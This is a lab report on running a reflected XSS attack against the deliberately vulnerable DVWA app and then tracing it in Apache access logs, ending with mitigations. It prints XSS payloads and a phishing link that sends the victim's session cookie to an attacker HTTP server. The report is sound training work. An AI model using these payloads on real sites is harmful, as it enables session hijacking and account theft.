







# Lab Report: Performing and Detecting Reflected XSS

## Overview

In this lab, I performed and investigated a reflected XSS (Cross-Site Scripting) attack using the DVWA (Damn Vulnerable Web Application) hosted on a local LAMP server. The objective was to understand how reflected XSS works and how to identify its indicators in Apache web logs.

---

## Lab Objectives

This lab aligns with the following CompTIA CySA+ objectives:

- **1.1** System and network architecture in security operations
- **1.2** Analyze indicators of potentially malicious activity
- **1.3** Use tools or techniques to determine malicious activity
- **1.4** Threat-intelligence and threat-hunting concepts
- **2.4** Mitigate attacks and software vulnerabilities
- **3.2** Perform incident response activities
- **3.5** Attack methodology frameworks

---

## Lab Environment

- **KALI VM**: Used for reconnaissance and launching XSS attacks
- **LAMP VM**: Hosts DVWA, the vulnerable web application
- **Browser**: Firefox ESR
- **Tools**: Terminal, Apache log viewer, Python HTTP server

---

## Part 1: Performing Reflected XSS

### Step 1: Verifying DVWA Access

- Navigated to `http://dvwa.structureality.com` and logged in as `admin` / `password`.
- Ensured security level was set to **Low**.



### Step 2: Testing Basic Input

- Submitted `testuser` in the "What's your name?" field.
- Verified output: `Hello testuser`.



### Step 3: Submitting Malicious Script

Submitted the following input:

```html
<script>
  alert("You have been hacked!");
</script>
```

- Popup appeared confirming script execution.

Submitted next:

```html
<script>
  alert(document.cookie);
</script>
```

- Popup displayed PHPSESSID, demonstrating cookie theft via reflected XSS.



## Part 2: Polluting Referrers

- Repeated previous inputs but returned to the XSS page after each submission.
- This approach simulates real attacker behavior and affects HTTP referrer headers in logs.

## Part 3: Simulating a Realistic XSS Attack

### Step 1: Set Up Malicious Web Server

On Kali:

```bash
touch index.html
python -m http.server 9999
```



### Step 2: Simulated Phishing Email

Opened /root/email.html which contained:

```html
<a
  href="http://dvwa.structureality.com/vulnerabilities/xss_r/?name=%3cscript%3ewindow.location%3d%27http%3a%2f%2f10.1.16.66%3a9999%2f%3fcookie%3d%27%2bdocument.cookie%3c%2fscript%3e"
  >Activate your 6-months of free Premium Service!</a
>
```

- Clicking the link caused session cookie to be sent to attacker's HTTP server.



## Part 4: Investigating the Attack (On LAMP)

### Step 1: Navigate Apache Logs

```bash
cd /var/log/apache2
ls -l
```



### Step 2: Locate Malicious Request

Searched for encoded socket:

```bash
grep 10.1.16.66%3a9999 access.log
```

- Found HTTP GET request showing full reflected XSS payload.

```bash
GET /vulnerabilities/xss_r/?name=%3cscript%3ewindow.location%3d...
```



### Step 3: Trace Reconnaissance Activity

```bash
tail -n 25 access.log
```

Found evidence of prior requests:

- GET /vulnerabilities/xss_r/?name=testuser2
- GET /vulnerabilities/xss_r/?name=%3cscript%3ealert("You+have+been+hacked!+Again!")%3c%2fscript%3e
- GET /vulnerabilities/xss_r/?name=%3cscript%3ealert(document.cookie)%3c%2fscript%3e

📸 Screenshot suggestion: Full sequence of log entries leading up to the attack

## Analysis

- The attack was executed using a reflected XSS payload encoded in a phishing link.
- Apache logs confirmed the attack via the GET request and referrer fields.
- The session token (PHPSESSID) was successfully exfiltrated to the attacker's machine.
- Apache logs captured key IOCs: attacker IP, percent-encoded payload, and suspicious referrers.

## Mitigation Recommendations

- Sanitize user input with proper encoding
- Use Content Security Policy (CSP)
- Employ web application firewalls
- Enable HttpOnly and Secure flags on cookies
- Conduct regular log reviews and implement alerting on suspicious patterns

## Conclusion

This lab demonstrated how a simple reflected XSS vulnerability could be exploited to hijack a user's session. It also showed the importance of log analysis and early detection of such activity within access logs.
